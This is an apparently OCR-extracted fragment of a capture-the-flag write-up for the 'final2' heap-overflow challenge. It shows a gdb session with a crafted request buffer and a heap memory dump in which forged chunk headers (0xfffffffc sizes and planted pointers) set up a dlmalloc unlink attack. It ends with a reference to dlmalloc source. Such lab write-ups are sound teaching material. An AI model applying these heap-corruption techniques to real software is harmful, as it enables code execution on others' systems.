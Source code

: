 ```gdb
source: /
length: 1
buf: ROOT/�������� �
Dst: /
source: /�������� �
length: 17

Breakpoint 4, 0x0804be01 in get_requests (fd=4) at final2/final2.c:54
54      final2/final2.c: No such file or directory.
        in final2/final2.c
(gdb) x/64wx 0x0804e000
0x804e000:      0x00000000      0x00000089      0x44525346      0x4f4f522f
0x804e010:      0x2f2f2f54      0x2f2f2f2f      0x2f2f2f2f      0x2f2f2f2f
0x804e020:      0x2f2f2f2f      0x2f2f2f2f      0x2f2f2f2f      0x2f2f2f2f
0x804e030:      0x2f2f2f2f      0x2f2f2f2f      0x2f2f2f2f      0x2f2f2f2f
0x804e040:      0x2f2f2f2f      0x2f2f2f2f      0x2f2f2f2f      0x2f2f2f2f
0x804e050:      0x2f2f2f2f      0x2f2f2f2f      0x2f2f2f2f      0x2f2f2f2f
0x804e060:      0x2f2f2f2f      0x2f2f2f2f      0x2f2f2f2f      0x2f2f2f2f
0x804e070:      0x2f2f2f2f      0x2f2f2f2f      0x2f2f2f2f      0x2f2f2f2f
0x804e080:      0x2f2f2f2f      0x2f2f2f2f      0xfffffffc      0xfffffffc
0x804e090:      0x0804d410      0x0804e020      0xfffffc2f      0xfffffcff
0x804e0a0:      0x04d410ff      0x04e02008      0x00000008      0x00000000
0x804e0b0:      0x00000000      0x00000000      0x00000000      0x00000000
0x804e0c0:      0x00000000      0x00000000      0x00000000      0x00000000
0x804e0d0:      0x00000000      0x00000000      0x00000000      0x00000000
0x804e0e0:      0x00000000      0x00000000      0x00000000      0x00000000
0x804e0f0:      0x00000000      0x00000000      0x00000000      0x00000000
```





## Reference
- https://github.com/ennorehling/dlmalloc/blob/master/malloc.c
- 